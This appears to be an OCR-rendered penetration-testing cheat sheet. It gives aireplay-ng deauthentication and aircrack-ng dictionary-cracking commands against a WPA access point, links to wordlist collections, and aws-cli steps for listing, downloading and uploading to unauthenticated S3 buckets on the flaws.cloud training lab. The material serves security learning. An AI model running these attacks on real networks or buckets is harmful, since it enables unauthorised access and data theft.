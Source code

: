 ```
    Deauthenticate the Wireless clients 
        >  aireplay‐ng ‐0 100 ‐a C0:F6:C2:5E:8D:20 wlan0mon
        ‐‐0 means deauthentication  100 is the number of deauth packets to send  
        ‐a C0:F6:C2:5E:8D:20 is the access point MAC address  
        ‐wlan0mon is the interface name.
    Look for the WPA Handshake in the Notification 
        >  Press CTRL + C , Once you have handshake
2. Crack the password
    Now you can use the following command to break the  password with Dictionary attack 
        >  aircrack‐ng ‐w /usr/share/wordlists/rockyou.txt ‐b C0:F6:C2:5E:8D:20 pass*.cap 
        If rockyou is compressed
            >locate rockyou
            Gunzip {file path}
            Ls to check
        >  aircrack‐ng pass*.cap ‐w /usr/share/wordlists/rockyou.txt
Best Alternate Word lists Collections.  
https://weakpass.com/  https://github.com/danielmiessler/SecLists/tree/master/Pass words/WiFi-WPA  
https://labs.nettitude.com/blog/rocktastic/  
https://github.com/kennyn510/wpa2-wordlists
```

# Perform Wireless attacks with saved PCAP
```
Copy wordlist into sample captures folder
Open terminal in sample caputes folder
>aircrack-ng {pcap file} (gives key)
>aircrack-ng {pcap file} -w {wordlist file}
```

# S3 Bucket Enumeration
```
Download LazyS3 from github
>ruby lazys3.rb <COMPANY>
Got to {result}.s3.amazonaws.com

>Sudo apt install cloud-enum
>cloud_enum -k flaws.cloud --disable-azure --disable-gcp

Browser extension:
https://github.com/AlecBlance/S3BucketList
```

# S3 Bucket Exploitation
```
>Sudo apt install update  
>Sudo ap-get install awscli
>aws s3 ls s3://flaw.cloud/ --no-sign-request
>aws s3 cp s3://flaws.cloud/secret-dd02c7c.html . --no-sign-request
>aws s3 cp ./index.html s3://flaws.cloud --no-sign-request
S3 Bucket Exploitation (Authentication)
Create AWS Profile
>aws s3 --profile ammar ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
```

